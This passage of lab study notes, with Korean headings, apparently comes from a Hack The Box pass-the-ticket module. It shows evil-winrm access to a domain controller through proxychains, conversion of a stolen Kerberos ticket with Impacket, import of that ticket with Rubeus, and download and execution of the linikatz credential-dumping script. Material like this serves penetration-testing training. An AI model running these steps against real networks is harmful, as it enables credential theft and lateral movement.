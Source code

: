 <SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

<SNIP>
```
```$ proxychains evil-winrm -i dc01 -r inlanefreight.htb```

### 기타 종류

#### Impacket Ticket Converter
```$ impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi```

#### Importing Converted Ticket into Windows Session with Rubeus
```
C:\htb> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
C:\htb> klist
C:\htb> dir \\dc01\julio
```

#### Linikatz
```
$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
$ /opt/linikatz.sh
```




[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> whoami